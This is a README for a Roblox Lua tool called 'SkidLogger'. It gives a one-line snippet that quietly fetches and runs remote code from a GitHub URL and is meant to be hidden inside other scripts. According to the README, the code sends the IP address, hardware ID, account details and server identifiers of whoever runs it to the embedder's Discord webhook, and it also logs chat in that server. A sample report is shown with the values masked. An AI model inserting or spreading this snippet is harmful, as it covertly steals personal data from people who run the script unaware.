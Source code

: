 # How To Use the SkidLogger in your script?

Before you'll do all of those steps, note, that you should have a discord webhook API URL, before inserting the skidlogger in your own script.

1. Insert this code:
```lua
pcall(function()task.spawn(function()loadstring(game:HttpGet("http://github.com/IvanTheProtogen/skidlogger/raw/main/main.lua"))()("<<URL>>")end)end);
```
2. Replace the `<<URL>>` with your own discord webhook API URL.
3. Profit.

# What does it do?

It sends anyone's (whoever executes the code) IP, HWID, Username, User ID, Display Name, Place ID, Job ID and Universe ID via the webhook. It also logs messages said by players in the same server where the victim is at.

## Previews 

```
# Skid Got Caught!

HWID: ################################################################
Skidlogger Session ID: ##########
Username: IvanTheProtogen0
Display Name: IvanTheScript
User ID: 4856500064
Game Job ID: ########-####-####-####-############
Game Universe ID: ##########
Game Place ID: ##########
IP: ###.###.###.###

Join the skid by executing this code!: 
``lua
game:GetService("TeleportService"):TeleportToPlaceInstance(##########, "########-####-####-####-############", game:GetService("Players").LocalPlayer);
``
```

```
[[##########]] IvanTheScript (@IvanTheProtogen0) >> Hello World!
```
